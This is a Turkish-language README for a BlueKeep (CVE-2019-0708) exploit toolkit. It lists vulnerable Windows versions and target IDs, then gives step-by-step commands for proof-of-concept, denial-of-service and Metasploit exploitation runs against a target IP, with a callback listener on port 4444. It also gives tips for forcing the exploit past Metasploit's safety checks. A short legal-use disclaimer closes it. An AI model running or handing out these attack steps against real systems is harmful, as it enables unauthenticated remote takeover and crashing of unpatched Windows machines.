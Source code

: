# BlueKeep (CVE-2019-0708) Exploit Toolkit

Bu toolkit, BlueKeep (CVE-2019-0708) güvenlik açığından etkilenen Windows sistemlerine yönelik çeşitli sömürü ve test araçları içerir.
![alt text](image-1.png)
![alt text](image.png)
## İçindekiler

- [Genel Bilgi](#genel-bilgi)
- [Desteklenen Sistemler](#desteklenen-sistemler)
- [Kurulum](#kurulum)
- [Kullanım](#kullanım)
  - [Proof of Concept (PoC)](#proof-of-concept-poc)
  - [Denial of Service (DoS)](#denial-of-service-dos)
  - [Metasploit ile Sömürü](#metasploit-ile-sömürü)
- [Sorun Giderme](#sorun-giderme)
- [Ek Araçlar](#ek-araçlar)
- [Güvenlik Uyarısı](#güvenlik-uyarısı)

## Genel Bilgi

BlueKeep veya CVE-2019-0708, aşağıdaki Windows sistemlerini etkileyen bir RCE (Remote Code Execution) güvenlik açığıdır:

- Windows 2003
- Windows XP
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows Server 2008 R2

Bu güvenlik açığı, kullanıcı doğrulama gerektirmeden (pre-authentication) uzaktan kod çalıştırmaya imkan verir ve NT Authority\system kullanıcı bağlamında çalışabilir.

## Desteklenen Sistemler

| Hedef ID | İşletim Sistemi | Notlar |
|----------|-----------------|--------|
| 0 | Otomatik hedefleme | Her durumda doğru çalışmayabilir |
| 1 | Windows 7 SP1 (6.1.7601 x64) | Kurumsal ortamlarda yaygın |
| 2 | Windows 7 SP0 (6.1.7600 x64) | **TAVSİYE EDİLEN** - Test için en güvenilir |
| 3 | Windows Server 2008 R2 SP1 (6.1.7601 x64) | fDisableCam=0 ayarı gerektirir |
| 4 | Windows Server 2008 R2 SP0 (6.1.7600 x64) | fDisableCam=0 ayarı gerektirir |
| 5 | Windows Server 2008 SP1 (6.0.6001 x64) | fDisableCam=0 ayarı gerektirir |

## Kurulum

### Gereksinimler
```bash
sudo apt install python3 python3-dev python3-pip openssl libssl-dev git
```

### Bağımlılıkları Yükleme
```bash
pip3 install -r requirements_fixed.txt
```

Ya da script ile otomatik yükleme:
```bash
python3 bluekeep_runner.py -i HEDEF_IP
```

## Kullanım

### Proof of Concept (PoC)

PoC modunu çalıştırmak için:
```bash
python3 bluekeep_runner.py -i HEDEF_IP -p 3389 -m poc -v
```

Local runner ile çalıştırmak için (bağımlılıkları kurmadan):
```bash
python3 local_bluekeep_runner.py -i HEDEF_IP -p 3389 -m poc -v
```

### Denial of Service (DoS)

DoS (servis dışı bırakma) modunu çalıştırmak için:
```bash
python3 bluekeep_runner.py -i HEDEF_IP -p 3389 -m dos -a 64 -t 3 -w 2
```

Parametreler:
- `-a`: Hedef mimarisi (32 veya 64 bit)
- `-t`: Saldırı deneme sayısı
- `-w`: Denemeler arasındaki bekleme süresi (saniye)

### Metasploit ile Sömürü

#### Automatic Runner
```bash
python3 metasploit_bluekeep.py -i HEDEF_IP -l YEREL_IP -t 2
```

Parametreler:
- `-i`: Hedef IP adresi
- `-l`: Yerel IP adresi (varsayılan: otomatik tespit)
- `-t`: Hedef ID (varsayılan: 2 - Windows 7 SP0)
- `-p`: Hedef port (varsayılan: 3389)
- `-o`: Yerel bağlantı port (varsayılan: 4444)
- `-f`: Otomatik kontrol atlamayı zorla (varsayılan: Evet)
- `-v`: Ayrıntılı çıktı
- `-d`: Hata ayıklama modu

#### Doğrudan Çalıştırma (Force Mode)
```bash
python3 force_bluekeep.py -i HEDEF_IP -l YEREL_IP -t 2
```

veya

```bash
python3 force_exploit.py -i HEDEF_IP -l YEREL_IP -t 2
```

#### Manuel Metasploit Komutları

Manuel komut oluşturmak için:
```bash
python3 bluekeep_direct.py -i HEDEF_IP
```

## Sorun Giderme

### Hedef kontrolü

Hedefin erişilebilir olup olmadığını kontrol edin:
```bash
python3 check_target.py -i HEDEF_IP -p 3389
```

### Metasploit ile ilgili sorunlar

1. Hedef tespit hatası alırsanız:
   ```
   Exploit aborted due to failure: unknown: Cannot reliably check exploitability
   ```
   Çözüm: Force modunu kullanın
   ```
   set ForceExploit true
   set AutoCheck false
   ```

2. Bad-config hatası alırsanız:
   ```
   Exploit aborted due to failure: bad-config: Set the most appropriate target manually
   ```
   Çözüm: Hedef ID değerini 2 olarak ayarlayın (Windows 7 SP0)
   ```
   set TARGET 2
   ```

## Ek Araçlar

### Local Test Environment
```bash
python3 rdp_listener.py -p 8389 -v
```

ve başka bir terminal penceresinde:
```bash
python3 self_test.py -p 8389 -m poc -v
```

### Hedef Tespiti için
```bash
python3 bluekeep_direct.py -i HEDEF_IP -p 3389
```

## Güvenlik Uyarısı

Bu araçlar, sadece yasal penetrasyon testleri ve güvenlik araştırmaları için kullanılmalıdır. İzinsiz sistemlere erişmek yasadışıdır. Bu araçların kötü amaçlı kullanımından doğacak sonuçlardan kullanıcı sorumludur.

---

Developed based on research by [Ekultek](https://github.com/Ekultek) and [NullArray](https://github.com/NullArray)
Enhanced with Metasploit integration and additional tools.
